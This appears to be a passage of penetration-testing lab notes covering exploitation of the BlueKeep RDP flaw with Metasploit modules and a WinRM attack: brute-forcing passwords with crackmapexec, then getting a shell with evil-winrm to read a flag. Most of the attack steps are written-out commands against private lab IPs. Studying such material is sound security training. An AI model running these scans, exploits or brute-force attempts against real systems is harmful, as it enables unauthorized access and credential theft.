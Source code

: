#### Exploit

* The BlueKeep vulnerability has various illegitimate PoC's and exploit code that could be malicious in nature. It is therefore recommended to only utilize verified exploit code and modules for exploitation.
* The BlueKeep exploit has an MSF auxiliary module that can be used to check if a target system is vulnerable to the exploit and also has an exploit module that can be used to exploit the vulnerability on unpatched systems.
* The BlueKeep exploit module can be used to exploit vulnerable Windows systems and consequently provide us with a privileged meterpreter session on the target system.

_Note: targeting kernel space memory and application can cause system crashes._

```bash
john@attack> sudo nmap -p 3389 10.10.10.7
john@attack> msfconsole

msf6> search BlueKeep
msf6> use auxiliary/scanner/rdp/cve_2019_0708_bluekeep
msf6> set rhosts 10.10.10.7
msf6> exploit
```

```bash
msf6> use scanner/rdp/cve_2019_0708_bluekeep_rce
msf6> set rhosts 10.10.10.7
msf6> set target 2
msf6> exploit

meterpreter> getuid
```

### Exploit WinRM

#### Description

* Windows Remote Management (WinRM) is a Windows remote amangement protocol that can be used to facilitate remote access with Windows systems over HTTP(S).
* Microsoft implemented WinRM in to Windows in order to make life easier for system administrators.
* WinRM is typically used in the following ways :
  * Remotely access and interact with Windows hosts on a local network.
  * Remotely access and execute commands on Windows systems.
  * Manage and configure Windows systems remotely.
* WinRM typically uses TCP port 5985 and 5986 (HTTPS).
* WinRM implements access control and security for communication between systems through various forms of authentication.
* We can utilize a utility called `crackmapexec` to perform a brute-force on WinRM in order to identify users and their passwords as well as execute commands on the target system.
* We can also utilize a ruby script call `evil-winrm` to obtain a command shell session on the target system.

#### Lab

```bash
john@attack> nmap 10.3.19.37 -p 5985
john@attack> crackmapexec winrm 10.3.19.37 -u administrator -p /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
john@attack> evil-winrm.rb -i 10.3.19.37 -u administrator -p tinkerbell

*Evil-WinRM* PS> more C:/flag.txt
```
